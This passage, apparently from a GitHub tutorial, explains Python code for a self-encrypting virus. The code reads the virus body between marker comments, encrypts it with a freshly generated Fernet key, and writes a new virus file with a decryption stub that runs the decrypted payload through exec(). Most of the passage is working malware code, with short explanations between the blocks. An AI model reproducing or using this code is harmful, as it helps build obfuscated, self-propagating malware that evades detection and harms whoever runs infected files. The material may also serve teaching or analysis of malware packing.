 These read the decryption method between `### END ENCRYPT ###` and `### END VIRUS ###` and store it in `payload` and then read the 'old payload' between `### ENCRYPT ###` and `### END ENCRYPT ###` and store it in `previous_payload`.

<hr>

```py
def generate_key():
  global secret_key
  secret_key = Fernet.generate_key()


def encrypt_payload():
  fernet = Fernet(secret_key)
  for elem in payload:
    encode.append(fernet.encrypt(elem.encode()))
```

Here the secret key is generated and the `payload` is encrypted and stored in `encode`.

<hr>

```py
def ask_for_encrypted_filename():
  print("Name of the file with the encrypted virus: ")
  encypted_virus_filename = input()
  return encypted_virus_filename
```

This asks the user for the name of the new encrypted virus.

<hr>

```py
def compute_payloads():
  read_payload()
  generate_key()
  read_encrypted_payload()
  encrypt_payload()
```

This function just combines the previous ones, reading the payload, generating the key, reading the old payload and finally encrypting the payload.

<hr>

```py
def write_virus(encrypted_virus_name):
  with open(encrypted_virus_name, "w") as virus:
    virus.write("##### START VIRUS #####\n")
    virus.write('\n##### ENCRYPT #####\n')
    virus.writelines(previous_payload)
    virus.write("decryption_encrypted_" + file_name[:-3] +" = [b'" + (b"',b'".join(encode)).decode() + "']")
    virus.write("\n##### END ENCRYPT #####\n")
    decryption = """
from cryptography.fernet import Fernet

decrypted_payload = []

def decrypt_payload():
  fernet = Fernet(b'""" + secret_key.decode() + """')
  for elem in decryption_encrypted_""" + file_name[:-3] + """:
    decrypted_payload.append((fernet.decrypt(elem)).decode())

decrypt_payload()
exec("".join(decrypted_payload))
"""
    virus.write(decryption)
    virus.write("\n###### END VIRUS ######\n")
```